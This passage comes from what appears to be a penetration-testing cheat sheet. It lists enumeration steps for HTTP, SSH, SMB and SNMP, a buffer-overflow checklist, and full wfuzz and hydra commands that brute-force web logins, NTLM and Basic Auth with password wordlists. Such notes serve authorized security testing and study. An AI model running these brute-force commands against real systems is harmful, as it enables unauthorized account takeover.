 - PUT method all directories

- Change POST body encoding with Burp

- Bruteforce parameter names

- dirsearch with cookie once authenticated

- download vulnerable application from exploit-db and examine it

<a name="sshenumeration"></a><h3>SSH Enumeration</h3>

- shellshock

- bruteforce

- user_enum

- Debian OpenSSL Predictable PRNG

<a name="smbenumeration"></a><h3>SMB Enumeration</h3>

- nmap --script vuln

- nmap --script smb*

- nmap --script smb-enum-shares,smb-ls

- enum4linux

<a name="snmpenumeration"><h3> SNMP Enumeration</h3>

- snmpcheck

- snmpenum

<a name="explotation"></a><h2> Explotation </h2>

<a name="bof"></a><h3> BOF exploit-based </h3>

- change shellcode

- make sure all badchars are removed

- read the exploit properly in case this makes changes in the shellcode

- capture traffic with wireshark making sure the entire shellcode is transmited

- run the exploit several times

- make sure the JMP ESP matches OS and language


<a name="weakcreds"></a><h3> Weak Credentials </h3>


<a name="httpbrute"></a><b> HTTP Brute Force </b>

- wfuzz POST

```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

- hydra POST

```hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20```

- wfuzz NTLM

```wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api```

- wfuzz Basic Auth through Proxy

```wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/ActivosProduban/names.txt -z file,/root/Documents/Audits/ActivosProduban/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/```


<a name="passcrack"></a><b> Password Cracking </b>

- zip
```